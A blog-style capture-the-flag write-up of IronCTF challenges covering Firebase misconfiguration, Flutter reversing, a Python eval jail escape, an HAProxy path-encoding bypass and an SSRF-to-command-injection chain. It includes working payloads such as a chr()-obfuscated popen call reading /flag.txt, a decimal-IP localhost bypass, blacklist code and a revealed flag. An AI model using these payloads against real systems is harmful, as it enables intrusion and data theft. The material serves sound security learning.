





Hi guys, after long time this weekend I played Iron ctf which is hosted by SASTRA University. Really a wonderful CTF after and I was abled to solve few challenges. I concentrated mostly on android and web challenges, and was able to solve all android challenges as well as few web challenges. 


### Contents
*   Fire in the Base Camp[Android]
*   Secure Vault[Android]
*   Is this Android[Android]
*   Loan App[Web]
*   b64SiteViewer[Web]





### Fire in the Base Camp [Android]

From the challenge we can guess that the challenge is based on firebase. Firebase is a real time database which many android application uses. One common security misconfiguration is using firebase databases without authentication, similar to connecting to mysql DB without password. More about this in [blog](https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/). 




After decompiling the apk and analyzing mainactivity, we can find that it is using firebase DB. This is a simple dice rolling app which expects count value of *9999999* to read the flag. Initially I thought it would be easy if I made the counter value to 9999999. My idea is to use frida since it take less effort than manually changing the apk. So I wrote this frida script and ran the app. 

```
Java.perform(()=>{
	var main;
    Java.choose("com.example.app3.MainActivity",{
        onMatch : function(instance){
			var Int_class = Java.use("java.lang.Integer");
			var a = Int_class.$new(9999998);

			instance.count.value = a;
            console.log("[+] instance called" + instance.count.value);
        },
        onComplete: function(){}
    });
})
```

Value is set to **9999998** so that the next time If I roll the dice it would become **9999999** and gets the flag. But insted it just toasted `Congratulations!! You know where the flag is.` message. The app didn't even made the request to the URL. So I tried to the make the request URL from the resource file and applying slice but it doesn't help. 

```
MainActivity.this.mDatabase.child(MainActivity.this.path1 + MainActivity.this.path2 + MainActivity.this.path3 + MainActivity.this.path4 + MainActivity.this.path5).get()
```

But after few minutes later the toast message made sense. So i just made call to usual `.json` endpoint of the firebase URL. 


### Secure Vault [Android]

In this challenge the objective is to finc the secret password to the vault. Initially I decopiled using jadx and found out that the app was built using [flutter](https://flutter.dev/development). Usually uses flutter using dart VM for running and reverse engineering one is usually harder than normal apk. For this challenge I used a tool called [blutter](https://github.com/worawit/blutter). There is flutter reverse enginneer [video](https://www.youtube.com/watch?v=RtKOe8HQy8Q) which explains this well. 

<!-- {:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} -->

```
python3 blutter.py secure_vault/lib/arm64-v8a out_dir
```

After running the tool we can get the out_dir which contains `asm` folder which contains disassembled dart code. Going through the main.dart file found `_checkPassword` which checks password with base64 decoded string of `aXJvbkNURnswaF9teV9nMGQhIV95MHVfYnIwazNfaW50MF90aDNfNHBwXzRmNmUyMmNiYX0=`. After base64 decoding the string, we can get the flag.


```
echo "aXJvbkNURnswaF9teV9nMGQhIV95MHVfYnIwazNfaW50MF90aDNfNHBwXzRmNmUyMmNiYX0=" | base64 -d
ironCTF{0h_my_g0d!!_y0u_br0k3_int0_th3_4pp_4f6e22cba}
```


### Is this Android[Android]

This challenge as title suggested not an android challenge but rather a web challenge. Initially we are given calculator app based on flutter which performs calculation. But instead it showed error for any calculations. 

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}

After revering it like the previous app, we can find **calc.dart** in asm folder which contains the assembly code. To start our reversing I started searching for the string `Error!`, which we got while trying to calculate values from the app. The search leads us nearer to the `_calculate` function. The function looks it calls endpoint `` with our input to evaluate the expression. 

```
    // 0x22eb14: r1 = "https://calc.1nf1n1ty.team/calculate"
    //     0x22eb14: add             x1, PP, #9, lsl #12  ; [pp+0x9ce8] "https://calc.1nf1n1ty.team/calculate"
					...
    //     0x22eb20: bl              #0x183b44  ; [dart:core] Uri::parse
					...
    //     0x22eb40: add             x16, PP, #9, lsl #12  ; [pp+0x9cf8] "application/json"
					...
    //     0x22eb4c: add             x16, PP, #9, lsl #12  ; [pp+0x9d00] TypeArguments: <String, String>
					...
    //     0x22eb6c: add             x16, PP, #9, lsl #12  ; [pp+0x9d08] "expression"
                    ...
    //     0x22ebac: bl              #0x231228  ; [package:http/http.dart] ::post

```

Stripped few lines for ease of understanding. From the assembly code it is clear that the app is trying to make HTTP POST request with json {"expression":"our_expression"}. Since it is a HTTP request our Burp interceptor should have captured it. But unfortunately I didn't found any HTTP calls being made from app. So I tried to make one HTTP call. 

```
curl -X POST -H "Content-Type: application/json" --data-binary $'{\"expression\":\"1+2\"}' "https://calc.1nf1n1ty.team/calculate"
{"result":3}

```

With the confusion whether to contine to attack mobile app or web app, I asked organizers about it. And they hinted that I am going in correct decision. With this green flag I continued to explore the endpoint and found that it was python server which `eval` our input. So basically its going to be a **pyjail** challenge. After tinkering with it for a while found that few keywords like `system`, `os`, `dir` are blocked. Few characters like [',",g,f,l,x]. After few trial and errors, I was able to come up with payload which doesn't use any of the keywords restricted as well as able to bypass single and double quote check by appending characters to form string.

```
__import__('os').__dict__['popen']('cat /flag.txt').read() # the actual payload

__import__(chr(111)+chr(115)).__dict__[chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read() 
```


### Loan App[Web]

In this challenge, we are given a user registration and login panel. Once logged in we can request loan and according to the soruce provided admin can approve but there is no admin check. So any user can call the endpoint and approve loan. But when accessing admin the server throws `Request forbidden by administrative rules.`. After analyzing the source it is clear that **haproxy** is configured as reverse proxy which throws this error. The below haprxy rule denies our request. 

```
frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin
    http-request deny if is_admin
    default_backend gunicorn

```

When a request URL which begins with `/admin` is denied. To bypass tried vaious methods and URL encoding a character or the word `admin` works.

```
curl -X POST http://loanapp.1nf1n1ty.team/%61dmin/loan/6706c2fd3b619fc5054d4289
OK #response
```

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}


#### Wierd Uninted Solution

After solution someone solved the challege in a really wierd way. The challenge accepts only valid `uuidv4` string for registering. But someone googled valid uuidv4 and got uuid from first stackoverflow. After logging in with the same uuidv4 username and password. They were able to get flag, Since some other team have already solved using the same uuidv4 :) .    

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}


### b64SiteViewer[Web]

In this challenge we are welcomed with URL input box which visits our URL. Trying `localhost` and `127.0.0.1` throws error, after analyzing the source it is clear there are checking with blacklist. 

```
...
blacklist_scheme=['file','gopher','php','ftp','dict','data']
blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
if scheme in blacklist_scheme:
    return render_template_string('blocked scheme')     
if hostname in blacklist_hostname:
    return render_template_string('blocked host')
...
```

Using `http://2130706433:5000` URL from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) works. The admin URL route checks for internal ip address check, So we can call admin URL with this SSRF and also it is obvious that it executes command from user input.   

```
@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")
```


But still there are few restrictions in place. We can't execute common commands like `cat, python, perl, ...` . Using `ls` we can find the current directory files, One interesting file `run.sh`. `tail` command is not blocked ,so we can use tail with file name regex[since app.py, run.sh files are blocked in user input]. `tail -n 10 ap*` to get last 10 lines from app.py.

```
tail -n 10 run*
```

Flag is set as environment variable in **run.sh** file. 

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}
